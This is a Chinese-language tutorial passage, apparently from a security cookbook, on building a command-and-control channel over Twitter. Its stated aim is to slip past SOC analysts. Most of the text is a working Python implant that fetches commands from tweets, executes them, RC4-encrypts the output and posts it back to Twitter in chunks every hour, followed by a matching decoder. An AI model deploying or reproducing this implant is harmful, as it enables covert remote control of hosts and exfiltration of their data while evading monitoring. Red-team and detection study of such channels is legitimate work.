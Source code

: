 # 创建推特 C2

直到某一点，在互联网上请求随机页面是可以通过的，但一旦**安全运营中心**（**SOC**）分析师仔细查看正在消失的所有数据，很明显，这些请求将发送到一个不可靠的站点，因此可能与恶意流量有关。幸运的是，社交媒体在这方面起到了帮助作用，并允许我们将数据隐藏在显而易见的地方。

我们将创建一个脚本，用于连接到 Twitter、读取推文、基于这些推文执行命令、加密响应数据并将其发布到 Twitter。我们还将制作一个解码脚本。

## 开始

为此，您需要一个具有 API 密钥的 Twitter 帐户。

## 怎么做…

我们将使用的脚本如下所示：

```py
from twitter import *
import os
from Crypto.Cipher import ARC4
import subprocess
import time

token = ''
token_key = ''
con_secret = ''
con_secret_key = ''
t = Twitter(auth=OAuth(token, token_key, con_secret, con_secret_key))

while 1:
  user = t.statuses.user_timeline()
  command = user[0]["text"].encode('utf-8')
  key = user[1]["text"].encode('hex')
  enc = ARC4.new(key)
  response = subprocess.check_output(command.split())

  enres = enc.encrypt(response).encode("base64")

  for i in xrange(0, len(enres), 140):
          t.statuses.update(status=enres[i:i+140])
  time.sleep(3600)
```

解码脚本如下所示：

```py
from Crypto.Cipher import ARC4
key = "".encode("hex")
response = ""
enc = ARC4.new(key)
response = response.decode("base64")
print enc.decrypt(response)
```

